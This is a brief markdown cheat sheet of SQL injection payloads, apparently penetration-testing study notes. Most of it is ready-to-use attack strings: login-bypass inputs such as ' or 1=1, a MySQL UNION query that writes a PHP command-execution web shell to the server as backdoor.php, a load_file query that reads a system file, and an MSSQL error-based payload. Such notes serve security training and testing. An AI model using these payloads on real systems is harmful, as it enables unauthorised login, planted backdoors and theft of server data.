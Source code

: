# SQL Injection

## Readings

* [https://github.com/xMilkPowderx/OSCP/blob/master/SQLi.md](https://github.com/xMilkPowderx/OSCP/blob/master/SQLi.md)

## Authentication Bypass

Some programming languages may expect a single SQL record. If so, we need to limit the number of records manually:

```
admin' or 1=1 LIMIT 1;#
' or 1=1 LIMIT 1 --
' or 1=1 LIMIT 1 -- -
' or 1=1 LIMIT 1#
'or 1#
' or 1=1 --
' or 1=1 -- -
```

## MariaDB / MySQL

### Code Execution

```
http://target/page.php?param=vuln UNION SELECT 1,2,3,"<?php echo shell_exec($_GET['cmd']);?>" INTO OUTFILE 'web_server/backdoor.php'
```

### Load File

```
union all select 1,2,3,4,load_file("c:/windows/system32/drivers/etc/hosts"),6
```

## MSSQL

* [https://c0deman.wordpress.com/2013/06/25/mssql-injection-cheat-sheet/](https://c0deman.wordpress.com/2013/06/25/mssql-injection-cheat-sheet/)
* [https://www.exploit-db.com/papers/12975](https://www.exploit-db.com/papers/12975)

### Error-based SQLi

If an error page is displayed, a way to retrieve DB data is through error-based SQLi. Meaning data will be included in the error page.

Example: if a single quote is generating an error, you can enter the following and check if the DB version is included in the error page:

```
',convert(int,@@version))--
```

The payload may need to be adjusted if any syntax error appear.

## Fuzzing

[https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/SQLi](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/SQLi)
